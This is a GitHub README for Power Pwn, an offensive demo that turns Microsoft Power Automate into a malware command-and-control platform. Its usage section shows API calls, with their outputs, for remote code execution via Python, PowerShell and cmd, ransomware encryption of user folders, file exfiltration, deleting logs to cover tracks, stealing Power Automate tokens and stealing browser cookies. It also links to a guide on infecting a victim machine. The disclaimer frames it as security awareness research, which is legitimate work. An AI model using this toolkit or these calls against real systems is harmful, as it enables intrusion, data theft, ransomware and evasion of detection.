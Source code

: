 # Power Pwn

[![stars](https://img.shields.io/github/stars/mbrg?icon=github&style=social)](https://github.com/mbrg)
[![twitter](https://img.shields.io/twitter/follow/mbrg0?icon=twitter&style=social&label=Follow)](https://twitter.com/intent/follow?screen_name=mbrg0)
[![email me](https://img.shields.io/badge/michael.bargury-owasp.org-red?logo=Gmail)](mailto:michael.bargury@owasp.org)

Power Pwn is a demo showing how to repurpose Microsoft-trusted executables, service accounts and cloud services to power a malware operation.

<a href="https://powerautomate.microsoft.com/en-us/robotic-process-automation/"><img src="https://docs.microsoft.com/en-us/power-pages/media/overview/power-platform.png" alt="Power Pwn" width="500" height="250" /></a>

Disclaimer: these materials are presented from an attacker’s perspective with the goal of raising awareness to the risks of underestimating the security impact of No Code/Low Code. No Code/Low Code is awesome.

## Usage

```python
from powerpwn.c2 import PowerPwnC2

POST_URL = ""
pp = PowerPwnC2(post_url=POST_URL)

### code execution

# python2
pp.exec_py2("print('hello world')").cmd_code_execution
# CodeExecOutputs(ScriptOutput='\ufeffhello world\r\n', ScriptError='')

# python2 bad syntax
pp.exec_py2("bad syntax").cmd_code_execution
# CodeExecOutputs(ScriptOutput='', ScriptError='  File "", line 1\r\n    bad syntax\r\n        ^\r\nSyntaxError: unexpected token \'syntax\'')

# powershell
pp.exec_ps("Write-Host \"hello word\"").cmd_code_execution

# commandline
pp.exec_cmd("echo \"hello word\"").cmd_code_execution
# CodeExecOutputs(ScriptOutput='Microsoft Windows [Version 10.0.22000.795]\r\n(c) Microsoft Corporation. All rights reserved.\r\n\r\nC:\\Program Files (x86)\\Power Automate Desktop>echo "hello word"\r\n"hello word"\r\n\r\n', ScriptError='')

### ransomware

pp.ransomware(crawl_depth=2, dirs_to_init_crawl=["C:\\Users\\alexg\\Documents\\mystuff", "D:\\shh"], encryption_key="8d1d4245").cmd_ransomware
# Ransomware=RansomwareOutputs(FilesFound=9, FilesAccessed=9, FilesProcessed=9, Errors='')

### exfiltration

pp.exfil(target="C:\\Users\\alexg\\Downloads\\takeit.txt").cmd_exfiltration
# ExfiltrationOutputs(Success=True, FileContents='asd')
pp.exfil(target="C:\\Users\\alexg\\Downloads\\dontexist.txt").cmd_exfiltration
# ExfiltrationOutputs(Success=False, FileContents='')

### cleanup

pp.cleanup().cmd_cleanup
# CleanupOutputs(FilesFound=179, LogFilesDeleted=178)

### steal_power_automate_token

pp.steal_power_automate_token().cmd_steal_power_automate_token
# StealPowerAutomateTokenOutputs(Token='ey...')

### steal_cookie
pp.steal_cookie("https://www.google.com").cmd_steal_cookie
# StealCookieOutputs(Cookie='1P_JAR=2022-07-16-13; OGPC=19027681-1:')
```

## How To

[How to set up your Power Pwn cloud environment](docs/cloud_setup.md)

[How to infect a victim machine](docs/infect_machine.md)

[How to troubleshoot execution errors](docs/infect_machine.md)
